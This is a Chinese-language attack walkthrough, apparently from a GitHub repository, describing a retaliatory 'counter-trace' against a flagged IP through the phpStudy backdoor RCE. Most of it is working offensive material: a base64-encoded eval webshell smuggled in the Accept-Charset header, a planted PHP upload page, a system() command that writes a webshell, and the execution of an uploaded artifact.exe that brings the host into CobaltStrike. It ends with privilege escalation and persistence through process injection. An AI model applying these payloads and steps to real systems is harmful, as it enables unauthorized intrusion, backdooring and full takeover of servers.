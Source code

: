 > **流量监测设备发现入侵事件**

流量监测设备发现某IP存在高危攻击事件，开始对此IP进行反制溯源

![](images\phpstudy_backdoor-1-1.png)

> **Xray进行漏洞探测**

使用xray对恶意IP进行漏洞探测，发现存在`phpstudy-backdoor-rce`漏洞

![](images\phpstudy_backdoor-1-2.png)

> **方法一：AntSword连接Webshell上线CobaltStrike**

1. 配置蚁剑连接，编解码器使用`base64`

![](images\phpstudy_backdoor-1-3.png)

2. 利用漏洞进行无文件webshell连接，webshell直接写入请求头参数`Accept-Charset`（参数值要使用`base64`编码）

   - `base64`编码前代码为

     - ```php
       eval($_REQUEST['cmd']);
       ```

   - `base64`编码后代码为

     - ```
       ZXZhbCgkX1JFUVVFU1RbJ2NtZCddKTs=
       ```

![](images\phpstudy_backdoor-1-4.png)

3. 上传后门文件artifact.exe

![](images\phpstudy_backdoor-1-5.png)

4. 蚁剑静态终端执行后门文件上线CobaltStrike

![](images\phpstudy_backdoor-1-6.png)

> **方法二：制作表单页面上传**

1. 在`Accept-Charset`参数出创建一个文件上传页面，页面代码如下

   ```php+HTML
   <html><head><meta charset="utf-8"></head><body>
       <?php if(!isset($_POST['submit'])){?>
       <form action="" method="POST" enctype="multipart/form-data"><input type="file" name="upfile"/><input type="submit" name="submit" value="文件上传"></form>
       <?php }else{
           $tmp_name = $_FILES['upfile']['tmp_name'];
           $target_name = './' .$_FILES['upfile']['name'];
           if(move_uploaded_file($tmp_name, $target_name)){
               echo'文件上传成功';
           }else{
               echo'文件上传失败';
           }
       }?>
   </body></html>
   ```

2. 然后访问文件上传页面，上传后门actifact.exe

3. 在`Accept-Charset`参数执行后门文件上线CobaltStrike

   ```php
   system('C:\phpStudy\WWW\artifact.exe');
   ```

> **方法三：直接写webshell到目标服务器**

1. 写入webshell到目标服务器

   ```php
   system('echo ^<?php eval($_REQUEST[\'cmd\']);?^> > C:\phpStudy\WWW\shell.php');
   ```

2. 然后按照方法一，用蚁剑连接webshell页面，上传后门并执行，上线CobaltStrike

> **权限维持、提权**

1. 由于目标系统phpStudy服务以管理员账号运行，通过此漏洞上线直接获取目标服务器管理员权限

![](images\phpstudy_backdoor-1-7.png)

2. Powershell、进程注入获取系统权限并进行权限维持

![](images\phpstudy_backdoor-1-8.png)
